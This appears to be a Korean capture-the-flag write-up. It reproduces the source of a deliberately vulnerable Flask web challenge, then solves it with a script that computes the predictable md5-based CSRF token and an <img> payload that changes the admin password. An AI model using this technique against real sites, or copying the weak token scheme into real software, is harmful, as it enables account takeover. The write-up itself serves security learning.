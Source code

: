 #!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
from selenium.webdriver.common.by import By
from selenium import webdriver
from hashlib import md5
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

users = {
    'guest': 'guest',
    'admin': FLAG
}

session_storage = {}
token_storage = {}

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    options = webdriver.ChromeOptions()
    try:
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/login")
        driver.add_cookie(cookie)
        driver.find_element(by=By.NAME, value="username").send_keys("admin")
        driver.find_element(by=By.NAME, value="password").send_keys(users["admin"])
        driver.find_element(by=By.NAME, value="submit").click()
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_csrf(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not an admin"}')


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        if not check_csrf(param):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("user not found");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(8).hex()
            session_storage[session_id] = username
            token_storage[session_id] = md5((username + request.remote_addr).encode()).hexdigest()
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'


@app.route("/change_password")
def change_password():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
        csrf_token = token_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')
    pw = request.args.get("pw", None)
    if pw == None:
        return render_template('change_password.html', csrf_token=csrf_token)
    else:
        if csrf_token != request.args.get("csrftoken", ""):
            return '<script>alert("wrong csrf token");history.go(-1);</script>'
        users[username] = pw
        return '<script>alert("Done");history.go(-1);</script>'

app.run(host="0.0.0.0", port=8000)

해당 프로그램은 위와 같다. 

from hashlib import md5

id = b'admin'
ip_addr = b'127.0.0.1'

csrf_token = md5(id+ip_addr).hexdigest()

print(csrf_token)

이렇게 하면 해당 csrf_token을 얻을 수 있고 
<img src="/change_password?username=admin&pw=1234&csrftoken=7505b9c72ab4aa94b1a4ed7b207b67fb">
이렇게하면 비밀번호까지 변경할 수 있다. 

admin/1234로 로그인하면 플래그를 얻을 수 있다.
